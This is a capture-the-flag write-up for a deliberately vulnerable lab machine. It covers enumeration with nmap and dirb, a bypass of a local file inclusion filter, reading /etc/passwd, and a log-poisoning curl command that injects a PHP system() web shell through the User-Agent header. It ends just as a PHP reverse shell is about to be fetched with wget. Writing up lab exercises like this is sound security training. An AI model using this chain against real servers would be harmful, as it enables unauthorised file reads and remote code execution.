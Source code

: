 ### Emuneration
We can start by performing an nmap scan on the target to get open ports, running services and OS detection
`sudo nmap -A 10.10.151.132`
from this we get the following results
![[nmap_scan.png]]
We can see open ports include port 22 and 80 from the aggressive scan. We can visit the IP address on port 80 we get the following web page
![[web_page.png]]
Once we get the web page, we have our first answer in front of us.
When we try to visit this flag we get an error 404 which is a classic case of private hosting. We need to add that IP address to the `/etc/hosts` file. 

![[add_domain.png]]

When we visit the page using the domain name, we get a web page with the following content

![[flag_1.png]]
The first flag can be found in that page.

We can then enumerate the webpage further for directories in the webpage using dirb. To do this we run `dirb http://10.10.151.132` you can use whatever word list you please for me I choose the common word list. From this, we get the following results
```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 30 13:03:28 2022
URL_BASE: http://10.10.151.132/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.151.132/ ----
==> DIRECTORY: http://10.10.151.132/flags/                                         
==> DIRECTORY: http://10.10.151.132/images/                                        
+ http://10.10.151.132/index.html (CODE:200|SIZE:19188)                            
http://10.10.151.132/                                                               ==> DIRECTORY: http://10.10.151.132/layout/                                        
==> DIRECTORY: http://10.10.151.132/pages/                                         
+ http://10.10.151.132/server-status (CODE:403|SIZE:278)       
```
Hot tip: The flags/ directory has something special (wink emoji).
Following a further look at these directories we can see that most pages have the html and php extension. We can then fuzz the domain we found earlier by using dirb and adding the .php and .html extension.
`dirb http://mafialive.thm -X .php .html`
We get the following results
```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 30 13:49:57 2022
URL_BASE: http://mafialive.thm/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php,.html) | (.php)(.html) [NUM = 2]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mafialive.thm/ ----
+ http://mafialive.thm/index.html (CODE:200|SIZE:59)                               
+ http://mafialive.thm/test.php (CODE:200|SIZE:286)                                
                                                                                   
-----------------
END_TIME: Sun Oct 30 14:17:45 2022
DOWNLOADED: 9224 - FOUND: 2
```
When we look at test.php we get the following page
![[test_page.png]]
Looking at the link structure, we can try some directory traversal voodoo but upon trial we do not get any results worth writing about.
This is where new learnings come from, I decided to look at new ways on how to bypass LFI restrictions that have been put in place, I came across this article on [booktricks.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses) on different ways to hack Local File Inclusion filters that have been put in place. (This was guesswork :) )
I also tried to use convert.base64-encoded filters to obtain a base-64 version of the file. I then get the following results.
![[bas_64_encoded_version.png]]
Upon decoding the above material, I get the following php file
```php
<!DOCTYPE HTML>

<html>

  

<head>

<title>INCLUDE</title>

<h1>Test Page. Not to be Deployed</h1>

</button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>

<?php

  

//FLAG: thm{explo1t1ng_lf1}

  

function containsStr($str, $substr) {

return strpos($str, $substr) !== false;

}

if(isset($_GET["view"])){

if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {

include $_GET['view'];

}else{

  

echo 'Sorry, Thats not allowed';

}

}

?>

</div>

</body>

  

</html>
```
We get our second flag in the PHP file and we continue to try and get a shell session. 
From the PHP excerpt above, we can see that the code filters `../..` type of queries. This is why we were not able to check navigate to other directories. With this knowledge, we can go back to our environment and try another LFI vector to access the `passwd` file. We can do that entering the following on our browser
![[path_traversal.png]]
This entry gives us the following
```sh
root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin

systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin

syslog:x:102:106::/home/syslog:/usr/sbin/nologin

messagebus:x:103:107::/nonexistent:/usr/sbin/nologin

_apt:x:104:65534::/nonexistent:/usr/sbin/nologin

uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin

sshd:x:106:65534::/run/sshd:/usr/sbin/nologin

archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
```

#### Short break
##### Log poisoning
Log poisoning is when you insert malicious code into an application’s log file in order to execute it. This application can be anything such as a web application, SSH or FTP. One way of triggering malicious code in a log file is Local File Inclusion. More information on how log poisoning is and how to execute it can be found [here](https://casimsec.com/2021/10/30/log-poisoning-and-lfi/)

#### Back to topic
We can now be able to perform path traversal to look at the Apache logs that are collected by using the following browser entry

![[apache_logs.png]]
Given this output, we can try to inject the logs with malicious PHP code using curl as shown below. 
`curl "http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log" -H "User-Agent: <?php system($_GET["cmd"]; ?>"`
This gives us the output of the logs as shown below
```sh
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        
10.8.16.98 - - [30/Oct/2022:22:07:24 +0530] "GET / HTTP/1.1" 304 180 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"
10.8.16.98 - - [30/Oct/2022:22:07:32 +0530] "GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1" 200 1072 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"
10.8.16.98 - - [30/Oct/2022:22:07:49 +0530] "GET /test.php HTTP/1.1" 200 473 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"
10.8.16.98 - - [30/Oct/2022:22:07:50 +0530] "GET /test.php?view=/var/www/html/development_testing/mrrobot.php HTTP/1.1" 200 485 "http://mafialive.thm/test.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"
10.8.16.98 - - [30/Oct/2022:22:08:43 +0530] "GET /test.php?view=/var/www/html/development_testing/./.././.././.././.././../etc/passwd HTTP/1.1" 200 949 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"
10.8.16.98 - - [30/Oct/2022:22:09:35 +0530] "-" 408 0 "-" "-"
10.8.16.98 - - [30/Oct/2022:22:18:59 +0530] "GET /test.php?view=/var/www/html/development_testing/./.././.././.././.././../var/log/apache2/access.log HTTP/1.1" 200 762 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36"
10.8.16.98 - - [30/Oct/2022:22:19:51 +0530] "-" 408 0 "-" "-"
10.8.16.98 - - [30/Oct/2022:22:22:17 +0530] "GET /test.php?view=/var/www/html/development_testing/./../.././.././.././.././var/log/apache2/access.log HTTP/1.1" 200 482 "-" ""
    </div>
</body>

</html>
```

At this point, we are ready to exploit our PHP website by spawning a reverse shell, we can now start a python server on our machine to upload our PHP reverse shell that we got [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 
`python -m http.server` 
We can now proceed to upload our file using the `wget` command. 
``
